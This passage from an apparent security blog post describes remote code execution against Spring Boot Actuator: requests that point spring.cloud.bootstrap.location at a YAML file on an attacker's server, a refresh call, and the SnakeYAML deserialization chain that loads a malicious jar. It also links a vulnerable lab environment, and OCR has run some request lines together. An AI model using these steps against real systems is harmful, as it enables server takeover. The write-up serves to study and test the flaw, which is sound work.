 **spring 2.x**

**\
**

```
POST /actuator/ envContent-Type: application/json{ "name" : "spring.cloud.bootstrap.location" , " value" : " http : //your-vps-ip/example.yml"}
```

[](https://www.blogger.com/#)**Step 3:** Refresh the configuration

**spring 1.x\
**

**\
**

```
POST /refreshContent - Type : application/x- www- form - urlencoded
```

**spring 2.x\
**

```
POST /actuator/ refreshContent-Type: application/json
```

#### Vulnerability Principle:

- The spring.cloud.bootstrap.location property is set to the URL address of the external malicious yml file

- refresh triggers the target machine to request the yml file on the remote HTTP server and get its content

- SnakeYAML has a deserialization vulnerability, so it will complete the specified action when parsing malicious yml content

- First, trigger java.net.URL to pull the malicious jar file on the remote HTTP server

- Then look for the class in the jar file that implements the javax.script.ScriptEngineFactory interface and instantiate it

- Execute malicious code when instantiating a class, causing RCE vulnerability

**[](https://www.blogger.com/#)Vulnerability Analysis:**

[Exploit Spring Boot Actuator Spring Cloud Env study notes](<https://b1ngz.github.io/exploit-spring-boot-actuator-spring-cloud-env-note/)>

[](https://www.blogger.com/#)**Vulnerable environment:\
**\
[repository/springcloud-snakeyaml-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springcloud-snakeyaml-rce)

**Normal Access:**

**\
**
